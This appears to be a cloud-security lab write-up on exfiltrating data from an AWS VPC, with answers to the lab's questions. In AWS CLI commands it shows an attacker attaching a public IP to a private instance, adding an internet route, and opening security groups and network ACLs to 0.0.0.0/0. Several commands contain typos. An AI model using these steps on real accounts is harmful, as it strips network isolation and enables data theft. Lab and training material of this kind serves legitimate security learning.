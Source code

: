 # AWS VPC - Dta Exfiltration

## Assing a public IP address on the Target Instance
1. To allocate a new public IP address to the EC2 Instance in this account.

```bash
aws ec2 allocate-address
```

2. To find the ENI for the Target machine.

```bash
aws ec2 describe-instances > instances.json
grep eni instances.json
```

![image](https://github.com/user-attachments/assets/6ab0c564-c885-4221-8c79-e6f7caf46343)

3. Assign the public IP to the ENI of the target machine.

```bash
aws ec2 assocaite-address --network-interface-id $ENI (from step 1) --allocation-id $EIPALLOC (from step 2)
```

## Change Route Table allowing a private subnet direct Internet access
- After assigning public IP address to the EC2 instance, we need to establish a route form the Internet to the subnet target.
1. Get the IGW ID

```bash
aws ec2 describe-internet-gateways
```

2. Get the Route Table ID

```bash
aws ec2 desccribe-route-tables > route-tables.json
```

3. Add the route to the Route table

```bash
aws ec2 create-route --route-table-id $ROUTE_TABLE --destination-cidr-block 0.0.0.0/0 --gateway-id $IGW
```

4. Rerun the command to confirm the new route is added.

```bash
aws ec2 describe-route-tables
```

## Modify the security group to allow access to the world
- A new route has been established but the traffic is still blocked by the Security Group. We need to modify the Security Group.

```bash
aws ec2 describe-security-groups > security-gorups.json
```

- Look for the desired Security Group and create a security group to allow all traffic.

```bash
aws ec2 authorize-security-group-ingress --protocol all -port 0-65535 --cidr 0.0.0.0/0 --group-id $SG_ID
```

## Fix the NACLs to allow access
- Now we have to modify the NACLs to allow access to the resources.

```bash
aws ec2 describe-network-acls > nacls.json
```
![image](https://github.com/user-attachments/assets/8d937e40-daf3-4d24-8e1c-ed2a5932fdaa)

- From the above output, we see that only IP addresses in CIDR 10.100.0.0/21 can communicate with this VPC. As an attacker, we want to to modify the NACLs to allow VPC to communicate with the Internet by allowing ingress and egress traffic through 0.0.0.0/0

```bash
aws ec2 create-network-acl-entry --cidr-block 0.0.0.0/0 --ingress --protocol -1 --rule-action allow --rule-number 1 --network-acl-id $ACL_ID
```
- Because NACLs is stateless, we have to define egress traffic for the VPC.

```bash
aws ec2 create-network-acl-entry --cidr-block 0.0.0.0/0 --egress --protocol -1 --rule-action allo --rule-number 1 --network-acl-id $ACL_ID
```

- Run the following command to check the new NACL entry:

```bash
aws ec2 describe-network-acls --filters Name=network-acl-id,Values=$ACL_ID 
```


# ANSWER THE QUESTION
- **What was the value of "PublicIpv4Pool" in the aws ec2 allocate-address response?**

![image](https://github.com/user-attachments/assets/e5e23817-a53e-4a79-88da-4e249bad3ad9)

-> `amazon`

- **What was the Name of the IGW?**

![image](https://github.com/user-attachments/assets/5f99dea2-599c-4245-83b7-9b7fc8141505)

-> `VPC-Capstone-IGW`

- **How many Subnets are associated with the "VPC-Capstone Private Subnet NACL"?**

-> `2`

